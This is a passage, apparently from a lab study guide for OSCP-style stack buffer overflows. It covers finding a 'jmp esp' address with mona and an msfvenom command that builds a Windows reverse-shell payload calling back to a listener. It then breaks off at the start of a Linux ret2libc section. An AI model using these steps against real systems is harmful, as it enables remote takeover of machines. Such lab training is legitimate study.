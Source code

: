 >**Note**: If the ESP direction does not match with the beginning of the payload fill it with NOPS (normally is **"\x90"\*8**)

### Finding a Jump Point

Find all "jmp esp" on the system `!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"`

>**Remember**: **Don't Forget** to put the **BAD CHARS** founded.

```
Log data, item 11
 Address=625011AF
 Message=  0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
```

> **REMBEMBER LITTLE ENDIAN** `\x62\x50\x11\xAF (system) -> \xAF\x11\x50\x62 (exploit)`

Put the adress on the "retn" variable. If the EIP is the same as ESP you success at jummping to ESP.

### Generate the Payload

We will generate the payload with `msfvenom`, (DON'T FORGET TO PUT THE FOUND BAD CHARS)` `` `

```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.11.21.203 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py

| sed 's/buf/payload/g'
```

> **Hint:** Using **EXITFUNC=thread** will only finish the thread once termintad the reverse shell without affecting the whole program. -> NO DoS

Copy the generated payload ant integrate it into the `exploit.py`

### Prepend NOPs

We will need some space in memory for the payload to unpack itself, if we added a padding before to match the beginning of the payload with ESP add another 16 NOPS.

`padding = "\x90" * 16`

# Linux 32 bits

## Ret2Libc (Localy)

For that task we are going to use a Kali with `gdb-peda` installed:

### Running the binary with GDB

```
❯ gdb rop
GNU gdb (Debian 10.1-1.7) 10.1.90.20210103-git
Copyright (C) 2021 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
```